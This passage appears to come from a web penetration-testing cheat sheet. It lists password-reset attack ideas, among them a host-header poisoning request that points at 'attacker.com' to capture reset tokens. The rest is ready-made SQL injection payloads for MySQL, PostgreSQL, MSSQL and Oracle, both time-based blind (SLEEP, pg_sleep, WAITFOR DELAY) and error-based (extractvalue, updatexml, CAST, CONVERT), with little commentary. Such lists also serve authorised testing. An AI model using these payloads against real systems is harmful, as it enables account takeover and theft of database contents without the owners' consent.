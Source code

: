 ### Password Reset Vulnerabilities

```bash
# Token predictability
# Collect multiple reset tokens and analyze pattern

# Token not invalidated after use
# Reuse old token after password change

# Host header poisoning
POST /reset HTTP/1.1
Host: attacker.com
...

# Token leakage via Referer
# Check if token is sent in Referer when clicking external links

# Multiple token validity
# Request reset for victim, then for yourself
# Try victim's token
```

---

## 3. Injection Attacks {#injection}

### SQL Injection - Advanced Techniques

#### Boolean-based Blind SQLi

```sql
# Time-based payload
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--

# MySQL
' AND IF(1=1,SLEEP(5),0)--
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--

# PostgreSQL
' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--

# MSSQL
'; WAITFOR DELAY '0:0:5'--

# Oracle
' AND (SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(5) ELSE NULL END FROM dual)--
```

#### Error-based SQLi

```sql
# MySQL extractvalue
' AND extractvalue(1,concat(0x7e,(SELECT database()),0x7e))--

# MySQL updatexml
' AND updatexml(null,concat(0x7e,(SELECT user()),0x7e),null)--

# PostgreSQL
' AND 1=CAST((SELECT version()) AS int)--

# MSSQL
' AND 1=CONVERT(int,(SELECT @@version))--
```
